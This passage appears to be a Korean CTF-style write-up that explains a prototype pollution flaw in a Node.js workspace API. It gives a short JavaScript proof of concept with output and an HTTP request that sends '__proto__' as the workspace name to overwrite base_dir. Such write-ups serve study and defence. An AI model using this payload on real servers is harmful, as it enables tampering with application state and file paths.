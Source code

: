 하지만 여기서 파일을 생성할 때 `Prototype Pollution`이 발생한다. 지금보니 파일을 읽을 때와 삭제할 때도 발생할 거 같다. 하지만 나는 파일을 생성할 때 발생하는 `Prototype Pollution`을 이용했다. `/api/users/:userid/:ws`를 보면 여러 파라미터 값을 가져와서 여러 조건문을 호출한다. 여기서 중요한 것은 사용자의 객체를 호출하는 방식이다.

```plaintext
1. const user = users[userid];
2. const workspace = user.workspaces[ws_name];
3. workspace[f_name] = f_path;
```
위의 순서대로 사용자의 모든 객체를 불러온다. 하지만 여기서 `ws_name`을 검사하지 않아 `__proto__` 프로토타입을 사용할 수 있다.

```plaintext
1. const workspace = user.workspaces[__proto__];
2. workspace[f_name] = f_path;
```
만약 `ws_name`의 값이 `__proto__`일 경우 반환값은 프로토타입 객체이기 때문에 2번에서 `workspace`가 프로토타입 객체가 되고, `f_name`의 값을 이용해서 원하는 내부 프로퍼티를 `f_path`로 요염 시킬 수 있다.

```javascript
const users = {}
users['asdf'] = {
            userid : 'asdf',
            pass : 'asdf',
            workspaces : {'asdf':{}},
            base_dir: '/tmp/a/nss'
        };
user = users['asdf']
const workspace = user.workspaces['__proto__'];
console.log(workspace)
workspace['asdf'] = 'polluted'

console.log(asdf)
```
```sh
❯ node poc.js
[Object: null prototype] {}
polluted
```
즉, 위와 같이 `Prototype Pollution`이 발생한다. 

```http
POST /api/users/asdf/__proto__ HTTP/1.1
Host: localhost:8888
Content-Length: 97
Content-Type: application/json
Connection: close

{
    "token":"b168dbf118c3ee0fe6db7a3d576694b5e11dfae1",
    "file_name":"base_dir",
    "file_path":"/usr/src/app"
}
```
사용자를 생성하고, 위와 같이 요청을 보내면 `base_dir`을 우리가 윈하는 값으로 덮어줄 수 있다. 
